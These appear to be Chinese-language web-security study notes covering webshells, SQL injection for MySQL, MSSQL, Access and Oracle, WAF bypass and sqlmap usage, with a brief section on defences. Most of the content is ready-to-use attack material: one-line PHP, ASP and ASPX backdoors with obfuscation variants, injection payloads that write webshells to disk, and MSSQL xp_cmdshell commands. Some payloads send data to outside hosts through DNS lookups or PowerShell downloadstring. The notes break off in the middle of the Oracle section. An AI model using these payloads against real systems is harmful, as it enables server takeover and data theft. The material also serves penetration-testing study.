


system($command)

passthru($command) 有回显

exec($command，$output)无回显，默认返回最后一行结果，**`$output`**是获得执行命令输出的每一行字符串

shell_exec($command) 默认无回显，可通过echo输出

`` 反引号  echo输出结果。shell_exec禁用此不可用

popen($command,string $mode )

$command为执行的命令，$mode是指针文件的连接方式（w+r)

```php
<?php popen('whoami >> c:/1.txt','r'); ?>       
```


php.ini   disable_functions = 禁用系统函数

漏洞类型：

1. 注入
   1. sql注入
   2. xss
   3. xxe
   4. 命令执行、命令注入
   5. 文件上传、文件下载
2. 信息泄露
   1. 源码泄露
   2. 敏感信息接口
   3. 员工资料    
   4. 服务器信息泄露
3. 逻辑漏洞a
   1. 权限绕过
   2. 条件竞争
   3. 数据篡改

# websafe

## webshell

webshell使以网页文件形式存在的一种命令执行环境，也可以称为网页后门。攻击者可以利用webshell从而达到长期控制网站服务器的目的并获得操作权。（webshell包含命令执行功能）

1. 大马：体积大，隐蔽性差，功能多（包括提权功能，磁盘管理，数据库连接）

2. 小马：体积小，隐蔽性强，可以利用解析漏洞来执行，功能少。

3. 一句话木马：代码简单，使用灵活，结合webshell管理工具使用使用$_GET['']、$\_POST['']、$\_REQUEST['']   

   ```PHP
   @eval($_POST['pass']); //pass为一句话的木马
   ```

#### php

PHP代码执行函数：eval(),assert(),preg_replace(),create_function(),array_map(),

call_user_func(),call_user_func_array(),array_filter()

1. eval()方法将输入的内容进行格式化为可执行代码

   `@eval($_POST['code']);`

2. assert()同eval()

   `assert($_POST['code']);`

3. preg_replace(re_expr,code,str)正则表达式替换

   `preg_replace("/test/e",$_POST["cmd"],"jutst test");`

4. create_function($uname,$upass,"retrun \$uname .$upass;'')  **php -v <7.2**

   `$func =create_function('',$_POST['cmd']);$func();`

5. array_map()函数将用户自定义函数作用到数组中每个值上，并返回用户自定义函数作用后的带有新值的数组，回调函数接受的参数数目应该与传递的参数数目一致

   `array_map($func,$array)`

   ```php
   $func = $_REQUEST['func'];
   $array[0] = $_REQUEST['cmd'];
   $new_array = array_map($func,$array)
   ```

6. array_filter()依次将array数组中的每个值传递到回调函数，函数若返回true，则array数组中的值会被包含在返回的结果数组中，数组的键名保持不变

   ```php
   <?php
       $cmd = $_REQUEST['cmd'];
   	$array1 = array($cmd);
   	$func = $_REQUEST['func'];
   	array_filter($array1,$func);
   ?>
   ```

   

PHP命令执行函数：

system(),exec(),popen(),passthru(),shell_exec()

@表示执行错误不会报错。

```php
$_uU=chr(99).chr(104).chr(114); //chr
$_cC=$_uU(101).$_uU(118).$_uU(97).$_uU(108).$_uU(40).$_uU(36).$_uU(95).$_uU(80).$_uU(79).$_uU(83).$_uU(84).$_uU(91).$_uU(49).$_uU(93).$_uU(41).$_uU(59);

eval($_POST[1]);

99 114 101 97 116 101 95 102 117 110 99 116 105 111 110  //
```

#### asp

菜刀可连接的webshell

```asp
<%eval request("pass")%>

<%execute request("pass")%>

<%execute(request('pass'))%>

<%executeGlobal request('pass')%>

<%eval(Request(chr(35)))%>   //ascii码
```

可执行系统目录的webshell

<%response.write server.createobject("wcscript.shell").exe("cmd.exe /c" &request("cmd")).stdout.readall%)

#### aspx

```aspx
<%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>

<%@ Page Language="Jscript"% validateRequest="false" %><%Request.Write(eval(Request.Item["pass"],"unsafe"));%>
```


webshell变形

1. 使用str_replace()函数替换内容

   str_replace(arg1,arg2,arg3);第三个参数中的含第一个参数改为第二个参数

2. base64_decode()函数  进行64编码

3. 使用.操作符拼接

4. 更换数据来源

5. 使用短标签

6. 字符串组合隐藏关键字


**最有效方法就是：可写目录不给执行权限，有执行权限的目录不给写权限。**

## 注入

### MySQL注入

sql注入流程

1. 找到注入点
2. 查询字段数
3. 判断回显位
4. 获取库名、表名、列名、数据


手动注入流程


联合查询：union 

sql漏洞发现：

1. 找与数据交互的位置

2. 判断动态参数

3. 加' " \判断页面是否正常

4. 尝试恢复正常，修改字符使页面恢复正常。

5. 结合页面功能猜测SQL语句（展示、注册、修改、删除）

   展示（' ' "" "%%" '%%'   ('')  ("") 

   '' " "   ('')  ("") ((""))

   

   
   
   '   "   \   2-1    '#    "#   ')#   ")#             #=23%


```mysql
\\注入点
'"\
1/1
1/0
and 1=1
" and "1"="1
and 1=2
or 1=1
'and '1' = '1
+ ^ - * % /
~ ! @
\\常用常量
@@version
@@servername
@@language
@@spid
```


```mysql
select schema_name from information_schema.SCHEMATA;获取所有库

select table_name from information_schema.`TABLES` where TABLE_schema = 'databasename';

select column_name from information_schema.`columns where table_schema = 'db_bbs' and table_name ='table_name';
```

union select 联合查询，前后列数一致 ,可使用其他函数代替，（）中可添加新的sql语句

user(),database(),version()

order by排序 可以使用第几列进行判断表的列数。

concat将字符串进行拼接，grouoconcat列拼接

union select (select concat(1,2,3)，2，4

id为负数第一行结果为空，显示联合查询的内容

order by查列数-》union select联合查询其他内容，

```mysql
create database db_bbs;

use db_bbs;

CREATE TABLE tb_news (
    id INT(10) UNSIGNED AUTO_INCREMENT,
    author VARCHAR(50) NOT NULL,
    title VARCHAR(100) NOT NULL,
    content TEXT NOT NULL,
    addtime TIMESTAMP,
    PRIMARY KEY ( id )
);

CREATE TABLE tb_users (
    id INT(10) UNSIGNED AUTO_INCREMENT, 
    uname VARCHAR(20) NOT NULL,    
    upass VARCHAR(50) NOT NULL, 
    active VARCHAR(100) DEFAULT 'image/default.jpg', 
    email VARCHAR(50) NOT NULL,
    addtime TIMESTAMP,
    PRIMARY KEY ( id ) 
);

INSERT INTO tb_news (author, title, content) VALUES ('zs', 'title1', 'dnkasjfnsdjkfndjkscnkdsncjkdasnc');

select * from tb_news;

select * from tb_news where key like '%笔记本%' and (type = 'pad' and a = 'huawei') and neicun = '6gb';

delete from tb_news;

delete from tb_news where key like '%笔记本%' and type = 'pad' and a = 'huawei' and neicun = '6gb'; 

update tb_news set author = 'zs', title='ehllo';

update tb_news set author = 'zs', title='ehllo' where id > 10;
```

报错注入，使用回显的报错信息

sql盲注（页面没有显示位，不回显错误信息，只能通过页面是否正常来判断，如登录界面）

1. 构造逻辑判断

   left(a,b)      从a的左侧截取b位

   ascii(substr(str,a,b))   从str的a开始截取b长度 ，  ascii则将某个字符转为ascii值

2. 报错注入，利用数据库制造错误条件，使查询结果显示在报错中

   **extractvalue(xml,args),xml,搜索的地址格式错误，会报错，特殊字符会出错，错误只显示30位    适用版本：mysql**

   **extractvalue函数的作用是对xml文档进行查询 ，xml为目标xml文档，args为xml路径** 
   
   ```mysql
   select extractvalue(1,concat('^',(select version()),'^'));
   
   //常用
   ?id = 1 extractvalue(1,concat('^',(select version()),'^')) --+
   ```

   具体值都可以使用（）中编写查询语句

   **updatexml（arg1,arg2,arg3）** 函数为更新xml文档的 函数，
   
   **arg1为目标xml文档，arg2为xml路径，arg3为更新的内容  路径错误则会报错**
   
   updatexml(arg1,arg2,arg3)   控制arg2   32个字符  
   
   ```mysql
   select extractvalue(1,concat('^',(select version()),'^'),1);
   
   
   select updatexml('^',concat(select concat(schema_name) from information_schema.schemata),'^') --+
   ```
   
   floor(arg)返回小于参数的最大整数
   
   ```mysql
   select concat(user(),floor(rand(0)*1))x from information_schema.tables group by x;
   +-----------------+
   | x               |
   +-----------------+
   | root@localhost0 |
   +-----------------+
   1 row in set (0.01 sec)
   
   select count(*),concat(database(),floor(rand(0)*2))x from information_schema.tables group by x;
   #报错：ERROR 1062 (23000): Duplicate entry 'pikachu1' for key 'group_key'
   ```
   
   
   
   
   
   name_const()产生一个集合列时，
   
   ```mysql
   http://172.16.12.2/updatexml_Digital.php?id=1 and extractvalue(1,concat('^',(select group_concat(schema_name) from information_schema.schemata where schema_name!=0x696e666f726d6174696f6e5f736368656d61),'^'))--+
   
   ```
   
   

```mysql
http://172.16.12.2/updatexml_Digital.php
?id=1 and updatexml(1,(select group_concat(schema_name) from information_schema.schemata),1) --+
```


​	

```mysql
http://172.16.12.2/updatexml_Digital.php
?id=1 and updatexml(1,(select group_concat(table_name) from information_schema.tables where table_schema = 0x64656465636d7376353767626b737031),1) --+
```


2


count返回结果数量 length返回结果长度

```mysql
\\报错注入
select 1/0
select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a
extractvalue(1,concat(0x5e,(version())))
updatexml(0x5e,concat(0x5e,(select version())),1)
exp(~(select * from (select user())a))
GTID_SUBSET(version(),1)
```

#### 报错注入

```mysql
\\floor()

select * from test where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);

\\extractvalue()

select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));

\\updatexml()

select * from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));

\\geometrycollection()

select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));

\\multipoint()

select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));

\\polygon()

select * from test where id=1 and polygon((select * from(select * from(select user())a)b));

\\multipolygon()

select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));

\\linestring()

select * from test where id=1 and linestring((select * from(select * from(select user())a)b));

\\multilinestring()

select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));

\exp()

select * from test where id=1 and exp(~(select * from(select user())a));

```


#### 堆叠注入

`;select 1

#### 盲注

服务器不会直接返回具体的数据库错误和语法错误，儿是返回程序开发时设置的特定信息，web页面仅返回True和False

睡眠函数sleep()

分割函数：substr(),mid(),

编码函数ascii()

```mysql
if(condition,field1,field2)

condition:(ascii(substr(database(),1,1))>115
          (ascii(mid(database(),1,1)))>115
```

?id=1' and IFNULL((substr((select user()),1,1)='r'),0) -- +

//如果 IFNULL 第一个参数的表达式为 NULL，则返回第二个参数的备用值，不为 Null 则输出值

?id=1' and strcmp((substr((select user()),1,1)='r'),1) -- +

//若所有的字符串均相同，STRCMP() 返回 0，若根据当前分类次序，第一个参数小于第二个，则返回 -1 ，其它情况返回 1


ascii(substr(str,1,1)) > 69

#### 延时注入

```mysql
 if   : if(ture/false,sleep(1),1)
 
case when  else end :

case
	when true 
		then sleep(3)
	else 1
end;

```

benchmark(arg1,arg2)用来测试一些函数的执行速度，arg1为执行的次数，arg2为执行的函数或者表达式，

select if(1=1,benchmark(40000000,md5('asd')),'no');

 #### 请求头注入

服务端可能将请求头中的信息保存进数据库

​	insert into

`insert into user_login() values (1.1.1.1)`

```mysql
values ('1','useragent' and updatexml(1,concat(),1) and '','2',3,4) //报错


values ('1','useragent' and (if(true,sleep(3),1)) and '1','2',3,4)
```

​	update 

`update user_login set login_ip = '1.1.1.1' where name = 'x'`

=====内联注入 

```MYSQL
insert into tb() values(database(),version())
```

#### 宽字节注入

宽字节；两个字节宽度的编码技术  

原因：mysql使用gbk编码的时候，会认为两个字符为一个汉字

set_charset = 'gbk'   8140 - FEFE 

%df(81)\           转为中文

#### 二次编码注入

%2527 > %27 > '

urldecode()  addslashes()  rawurldecode()

####  二次注入 


绕过注入检测：

1. 大小写
2. url编码
3. html编码
4. 十六进制编码
5. unicode编码

- `//` `--` `-- +` `-- -` `#` `/**/` `;%00`
- uniunionon
- and &
- or |
- space 0x9 0x20 0xa0 

常见Payload 

- select version()\@@version
- select user()\system_user()
- select user from mysql.user
- select database()
- select schema_name from information_schema.schemata
- select table_name from information_schema.tables
- select column_name from information_schema.columns
- select if(condition,sleep(3),0)
- ascii(x)
- sleep(3)
- benchmark(5000000,md5(1))
- ascii(substr(str,1,1)) & 32 = 1
- extractvalue(1,concat(0x5e,(version()))
- updatexml(1,concat(0x5e,(version()),1),1)
- count(\*),floor(rand(0)*2)x group by x

#### sql注入的防御

- 将传入的单引号去除

- 将单引号进行转义  \\' 

  `addslashes()函数，将传入的参数进行转义  将\'" 00都进行转义`   addslashes() + query()  相挨

  mysql_real_escape_string($establish,$string);将sql语句中的特殊字符进行转义

- magic_opc

  magic_quotes_gpc = Off   打开就会转义  PHP < 5.6

  对数字型无效

- 数字：强制类型转换 intval(num)

- 修改数据库连接方式

  `mysqli_connect(host,user,pass)`

- $`db = new PDO(host,user,pass)`

  $db -> bind();

  $res = $db -> prepare($sql(where name = ?));

  $res -> bindParam(1,$id);

  $res -> execute(array($id));

- 使用预编译的方法

#### 堆叠注入

，将多条sql语句一起执行，将原来的语句添加分号

#### 二次注入

已存储的数据被读取中，再次进入sql查询语句中导致的注入


1\\'  -->存储   1\'   -->读取   1'   

select * from user where id = '1'' ;

 sql注入写入文件：

1. select '<?php eval($_POST[\\'123\\']);?> ' into outfile '/var/www/html/1.php'
2. set global_log=on;set global general_log_file='/var/www/html/1.php'; select ''<?php eval($_POST[\\'123\\']);?>';
3. union select 1,'<?php eval($_POST[\\'123\\']);?>.3 into outfile '/var/www/html/1.php'

读取文件:

1. load_file : union select 1,load_file('c:\\1.php')),3 --+

| 类型     | 注入语句                                                     |
| -------- | ------------------------------------------------------------ |
| 联合注入 | -1' union select 1,version()                                 |
| 报错注入 | -1' and extractvalue(1,concat(0x5e,version()))<br />-1‘ and updatexml(1,concat(0x5e,version()),1)<br />select 1 from (select count(*),concat(version(),floor(rand(0)\*2))x from information_schema.tables group by x)a |

###### **mysql数据外带**

```mysql
select load_file(concat('\\\\',(select schema_name from information_schema.schemata limit 2,1),'.7ivbyl.dnslog.cn\\x'));
```


sqlmap

​	-v 控制sqlmap显示信息的程度 1-6 默认1


| sqlmap参数     | 说明                                                         |
| -------------- | ------------------------------------------------------------ |
| -u             | 指定url                                                      |
| -r             | 指定文件                                                     |
| -p             | 指定注入参数                                                 |
| --current-db   | 查看当前数据库                                               |
| --current-user | 查看当前数据库用户                                           |
| --is-dba       | 查看当前用户是否为管理员权限                                 |
| --dbs          | 查看数据库                                                   |
| -D             | 指定数据库2                                                  |
| --tables       | 查看数据表                                                   |
| -T             | 指定数据表                                                   |
| --columns      | 查看字段                                                     |
| --dump         | 获取数据                                                     |
| -v [1-6]       | 指定输出信息的详细程度                                       |
| -level [1-5]   | 指定扫描等级<br />2cookie 3ua,referer                        |
| --cookie       | 设置cookie                                                   |
| --random-agent | 随机生成ua                                                   |
| --timeout      | 设置超时时间                                                 |
| --threads      | 指定线程数                                                   |
| --dbms         | 指定数据库类型                                               |
| --delay        | 设置请求间隔                                                 |
| --prefix       | 添加前缀                                                     |
| --tamper       | 指定脚本                                                     |
| --suffix       | 在payload后添加后缀  --suffix '--+'                          |
| --chunked      | 分段传输，绕waf                                              |
| --headers      | 多个 请求头                                                  |
| --method       | 指定请求方式  PUT GET POST OPTIONS                           |
| --technique    | 注入方式     B(Bool) E(Error) U(Union)S(堆叠) T(TIME) Q（内联注入） |
| -banner        | 获取当前数据库版本以及操作系统信息                           |
| --sql-shell    | select语句执行shell                                          |
| --search       | 搜索                                                         |
| --reg-read     | 读取注册表                                                   |
| --batch        | 询问时默认选项                                               |
| **--os-shell** | 命令执行shell）                                              |
| --prefix       | 宽字节注入                                                   |
| --second-url   | 二次注入                                                     |

**--file-read**  **使用load_file 读取服务器上的文件（文件的绝对路径、以及MySQL对文件的权限、MySQL的安全开关securi_file_priv=空）**

```sqlmap
sqlmap -u http://xxxx.com/xx.php?id=1 --file_read /xxx/xxx/t123.txt源文件绝对路径
```

**--file_write + file_dest 同时使用，一个执行sqlmap所在计算机文件的路径，一个为服务器的存储的据对的路径，**

```sqlmap
sqlmap -u http://xxxx.com/xx.php?id=1 --file_write xxx/xxx/t123.txt源文件路径 --file_des /var/www/html/123.php写入文件路径
```


mysql: into outfile '/tmp/a.txt'

​			into dumpfile '/tmp/b.txt'

select load_file('/tmp/b.txt')


控制写入文件的内容

```mysql
select * from users where uname = 'a' union select 1,2,version(),4,5,6,'' into outfile '/tmp/a.txt';
```

```mysql
x select * from users where uname = 'a' union select 1,2,3,4,ascii(mid(load_file(/var/tem.php),1,1))>1 -- a
```

secure_file_priv  为空 可写可读文件

**phpmyadmin**

1. select '一句话木马' into dumpfile 'xxxx.php';

2. general log  phpmyadmin全局日志

   1. **打开 会将所有执行的sql历史记录写入到 mariadb.log文件中**

      **general log file指定日志保存地址到网站根目录。**


****


#### 过WAF

web application firewall 

应用层防护系统


waf白名单  

1. 范围内ip（公司wifi，内网）
2. 路径限制（路径白名单，路径下的参数均放行）
3. 域名限制，寻找目标真实ip

手工绕过方法（sql语法特性+http特性+waf缺陷）

- **大小写混写**      

  - UniON SeLECT 1,2,3

- **替换关键字(代码过滤不完整)**

  - UNIunionON seLEselectCT 1,2,3
  - || && < >  %20 %09 %0a /**/ ===》空格

- **使用编码**

  - unicode,hex,url,ascii,base64

- 内联注释/*! code */ code代码会被执行

  - **/\*!select\*/**  select 正常执行
  - 常见注释：
    - //    --     /**/   #     

- 等价函数替换 version() == @@version

- 特殊符号

  - #-->%23 或者  -- +  

- 缓冲区溢出

  - select 0xA*10000   表示A重复10000次

- **

- 

- 参数污染

  

  - 


分块传输仅支持post请求	

transfer-encoding: chunked

e.g: union/**/select


```mysql
\\过滤and or
id=1' oandr updatexml(1,concat(0x5e,version()),1) -- a

\\过滤注释
id=1' || updatexml(1,concat(0x5e,version()),1) || '1'='1

\\过滤空格
id=1' order%0bby%0b3 || '1'='1

\\过滤union select
id=11'%0BUNiOn%0BselECT%0B1,2,3 || '1'='1
id=11' uniunionon sElseLeCtECt 1,2,3 || '1'='1
```


**payload:**

```mysql
id=-1'%0Aunion%0Aselect%0A*%0Afrom%0A(select%0A1)a%0Ajoin%0A(select%0Adatabase())b%0A;%23
```

空格：%0A 逗号使用join方法连接两个小表（1和database()）分号结束当前语句 #注释后面的内容

join的使用方法


盲注payload（mid和substr被检测时可用）：**ascii(right(left(database(),m),1))** = n

控制m和n 对比数据库名称各位的ascii码值

and or  可以使用  anord    oandr     或者|| &&

%26=&

,逗号被检测可用使用0x2c /\*!,\*/ 还有join拼接方法代替

过滤了逗号 (1)limit处的逗号： limit 1 offset 0 (2)字符串截取处的逗号 mid处的逗号： mid(version() from 1 for 1) MSSQL： IS_SRVROLEMEMBER() IS_MEMBER() HAS_DBACCESS() convert() col_name() object_id() is_srvrolemember() is_member()

substr(database(),1,1) = 字母

mysql_real_escape_string() 函数转义 SQL 语句中使用的字符串中的特殊字符。

```mysql
##sqilab payoad

-1 union select -1,group_concat(schema_name)from information_schema.schemata,3,4 -- +


union select load_file() into ....../xx.php


##P12	POST 含有回显位
-admin") union select database(),version()#

##P13 	POST 无回显位但是有报错
admin') and updatexml(1,concat(0x5e,database()),1)#

##14	POST 双引号闭合报错注入
admin" and updatexml(1,concat(0x5e,version()),1)#

##15	POST 单引号闭合无回显无报错
admin' and length(database())=8#
后面使用ascii(substr(database(),1,1)) = 1判断

##16	POST ")闭合无回显无报错
admin") and length(database())=8#
后面使用ascii(substr(database(),1,1)) = 1判断

##17	POST密码未过滤单引号闭合有报错
123' and updatexml(1,concat(0x5e,database()),1)#

##18	POST请求头注入 闭合单引号和使用报错注入
Firefox/89.0' and extractvalue(1,concat(0x7e,concat(version()))) and '

##19	修改referer
' and extractvalue(1,concat(0x7e,database())) and '1'='1

#20		重新请求页面对cookie进行修改

uname=admin' and extractvalue(1,concat(0x5e,database())) and '1'='1

#21		对cookie进行base64编码
uname = YWRtaW4nIGFuZCBleHRyYWN0dmFsdWUoMSxjb25jYXQoMHg1ZSxkYXRhYmFzZSgpKSkgYW5kICcxJz0nMQ==

admin'and updatexml(1,concat(0x5e,database()),1)#
#22		双引号闭合
YWRtaW4iYW5kIHVwZGF0ZXhtbCgxLGNvbmNhdCgweDVlLChzZWxlY3QgZ3JvdXBfY29uY2F0KHNjaGVtYV9uYW1lKSBmcm9tIGluZm9ybWF0aW9uX3NjaGVtYS5zY2hlbWF0YSkpLDEpIw== 

##23 	多出'未闭合
?id=1' and '1'='1
?id=-1' union select 1,2,3 and '1'='1
或者 ?id=-1' union select 1,2,'1 
```


1. 3. 

### Mssql注入

asp + mssql 微软的sqlserver数据库服务器

master+model+tempdb+msdb数据库  

master 数据库控制sqlserver的所有

model  建立所有用户数据库的模板

tempdb 保存临时表

msdb 存储任务计划信息，事件处理信息、数据备份+恢复信息


mssql注释 --   /**/

;waitfor delay '00:00:03'-- +

bool

union 

多语句 时间注入 盲注

user_name() 当前数据库用户名

db_name() 当前数据库名称

@@version

```mssql
select is_srvrolemember('sysadmin');  判断当前是否为sa
select is_srvrolemember('db_owner');  判断当前用户写文件、读文件的权限（db_owner）
select is_srvrolemember('public');  判断是否有public权限，可以爆破表
```

 **判断mssql**

1. ** `id=1' and 1<(select%20 count(*) from sysobjects)--`**
2. **`?id=1' and exists (select * from sysobjects)--`**

```mssql
//报错显示数据库信息

//当前数据库
#payload
?id=1' and 1<(select db_name())--               

//当前数据库用户
#payload
?id=1' and 1<(select user_name())--                       

//数据库版本
#payload
/id=1' and 1<(select @@version)--                       

//判断当前数据库用户权限
#payload
?id=1' and 1=(select is_srvrolemember('sysadmin'))--                      

//查看数据库的数量
#payload 
?id=1' and 1<(select count(*) from Master.dbo.SysDatabases)--                       

//查看数据库名
#payload
?id=1' and 1<(select top 1 name from Master.dbo.SysDatabases)--                       

//查看所有的数据库名    注：条件中的top 1往后类推逐个推演
//payload
id=1' and 1<(select top 1 name from Master.dbo.SysDatabases where name not in (select top 1 name from master.dbo.sysdatabases))--                     
//查看库名，更换A的数值即可 
id=1' and (convert(int,db_name(A)))>0 --

convert(type,data)//将data转换为指定类型

//查看的数据库名为数值类型
#payload 	查看表的名称为数值转成字符和数值比较报错显示表名
?id=1' and 1<('~' %2b (select top 1 cast(id as nvarchar(4000)) from test..users)%2b'~')--                 
//查看选择的数据库中表的数量
#payload
?id=1' and 1<(select count(*) from information_schema.tables)--

查看数据库的数量

//获取表的名称
#payload
?id=1' and 1<(select top 1 table_name from information_schema.tables)-- 
?id=1' and 1<(select top 1 table_name from information_schema.tables where table_name not in (select top 1 table_name from information_schema.tables))

//获取某个表的字段数量
#payload
?id=1' and 1<(select count(column_name) FROM information_schema.columns where table_name = 'users') --


//获取字段的名称
#payload
?id=1' and 1<(select top 1 column_name FROM information_schema.columns where table_name = 'users') --          
id=1' and 1<(select top 1 column_name FROM information_schema.columns where table_name = 'users' and column_name not in (select top 1 column_name FROM information_schema.columns where table_name = 'users' )) --  

//union select 查询(注：要求前后所有的数据类型一致)
#payload
?id=1' union select 1,2,3,4--
?id=-1' union select null,null,null--
?id=-1' union select 1,(select db_name()),3-- 
?id=-1' union select 1,(select top 1 name from master.dbo.sysdatabases),2--
?id=-1' union select 1,(select top 1 name from master.dbo.sysdatabases where name not in (select top 1 name from master.dbo.sysdatabases)),2--
?id=-1' union select 1,count(table_name),3 from information_schema.tables--
?id=-1' union select 1,count(column_name),3 from information_schema.columns--         
              
//布尔盲注 注：数值类型同样使用cast(id as nvarchar(4000))
#payload
?id=1' and ascii(substring(str,1,1))=1--              
?id=1' and ascii(substring(cast(num as nvarchar(40000)),1,1))=1--   

//时间延迟盲注  waitfor delay "00:00:03"延迟3秒
#payload
if(1<2) waitfor delay '0:0:3' --
if(select count(name) from master.dbo.sysdatabases )--
IF 1=1 WAITFOR DELAY '0:0:5' ELSE WAITFOR DELAY '0:0:0';

//多语句+exec 
#payload
数据外带
?id=1';declare @a varchar(1024);set @a=db_name();exec("master..xp_cmdshell\"ping " %2b")

?id=3; declare @a varchar(1024);set @a=user_name();exec('xp_cmdshell''ping ' %2b @a %2b '.dnslog.com''')--

命令执行 --os-shell
mssql可以执行多语句，可以通过闭合原有语句加;执行其他语句
#payload
select * from users where id = '1'; exec master..xp_cmdshell 'command' --
#command为系统命令
#xp_cmdshell有开关

打开方式
exec sp_configure 'show advanced options',1;
reconfigure;
exec sp_configure 'xp_cmdshell',1;
reconfigure;

exec xp_cmdshell 'ping -n 10 127.0.0.1'-- 

使用sql注入获取命令执行结果
创建一个表，再把执行的结果写入到表中
?id=1';create table data(result,nvarchar(8000)); --  #data创建临时表0000000000
?id=1';declare @adqa varchar(8000); set @command=0x77686f616d69;insert into data (result) values(exec master..xp_cmdshell @command)--

isnull(result,'') 清空result中的空数据

declare @a varchar(9000);
set @a = (select top 1 substring(@@version,1,35));
exec('master..xp_cmdshell "powersehll oex (new-object net.webclient).downloadstring('http://ip:port/?data=' %2b @a %2b''')"') -- 
```


使用top实现limit功能

select count(name) from master.dbo.databases

count

cast(id as nvarchar(4000))  将数字类型的ID转为字符类型

convar(int,db_name())  将db_name转换为int型

然后使用`'~' %2b (select top 1 cast(id as char(4000)) from test..users)%2b'~'-- `

char(126) == ~                

```mssql
#payload 	top关键字的 使用
select top 1 name from master.dbo.sysadatabases where name not in (select top 1 name from maseter.dbo.sysdatabases) 
```

### Access注入

单文件形式数据库。不含有information_schema库

```access
exists(select * from sysobjects) \\判断数据库类型
\\布尔盲注
#payload
?id=1 and asc(mid(username,1,1)) from user > 59
?id=1 and (select top 1 asc(mid(username,1,1)) from user where username not in (select top 1 username from user))>99

\\联合查询  要求数据格式一致且数量一致以及后面的select 查询必须含有 from
#payload
?id=1 order by 3
\\猜表 and select count(*) from tb_name \\爆破
?id=1 union select 1,2,3 from tb_name
?id=1 union select 1,2,3 from tb_name where username not in (select top 1 username from tb_name)

\\偏移注入
原理
通过 inner join 语句，使用数据库的自连接查询让数据库内部发生乱序从而偏移出需要的字段
?id=1 union select 1,2,3,* from admin

\\移位注入
?id=1 union select 1,2,3,4,ad min.* from admin
?id=1 union select 1,2,3,admin.* from admin
```


### Oracle数据库注入

oracle数据库查询必须跟from tb_name

union select 前后数据类型必须一致，可以使用null代替。

length()函数返回长度

```sql
使用dual判断是否为oracle数据库
and exists(select * from dual)
and exists(select * from user_tables)
使用user_tables判断是否为oracle数据库（user_tables存放用户信息）
```

Oracle无limit

使用 where rownum = 1/2/3/4 数值 来选择显示第几行

and banner not in ('上一行的值')

nvl(str,'a') 判断是否为空，空转换为a

not in  和 <>一样互相可代替

select dstinct(owner from sys.all_tables)去重

```sql
//查询数据库版本
select * from sys.v_$version
#payload(1)：
?id=-1 union select 1,banner,2,3 from sys.v_$version where rownum=1 -- +
#payload(2):
?id=-1 union select 1,banner,3,4 from (select banner,rownum as LIMIT from (select distinct(banner) from sys.v_$version)) where LIMIT =1 -- +
```


Oracle数据库使用||进行字符串的拼接 `'a'||'b'`

#### 联合查询

```sql
//当前数据库的用户名：
#SYS_CONTEXT('USERENV','CURRENT_USER')
#payload:
?id=-1 union select 1,SYS_CONTEXT('USERENV','CURRENT_USER'),2,3 from dual -- +
?id=-1 union select 1,user,3,4 from user_tables -- +
```

```sql 获取数据库名称
// 获取所有的用户
select * from all_tables;
select owner from all_tables where rownum=num and owner not in ('sys');
#payload:
?id=-1 union select 1,owner,2,3 from all_tables where rownum=1 and owner not in ('SYS') -- +
#payload(1):
id=-1 union select owner from (select owner,ROWNUM as limit from (select DISTINCT(owner) from sys.all_tables)) where limit=1--
#payload(2):
select owner,rownum as a from (select distinct(owner) from sys.all_tables) where a = 2
注：从查询出的所有库名去重然后查询出库名和行号，行号作为条件
```


```sql
//获取表名    owner指定的是用户
select table_name from all_tables where rownum=1 and owner='test' and table_name not in ();
#payload(1):
?id=-1 union select table_name from all_tables where rownum=1 and owner='TEST' and table_name not in ('xxx')
#payload(2):
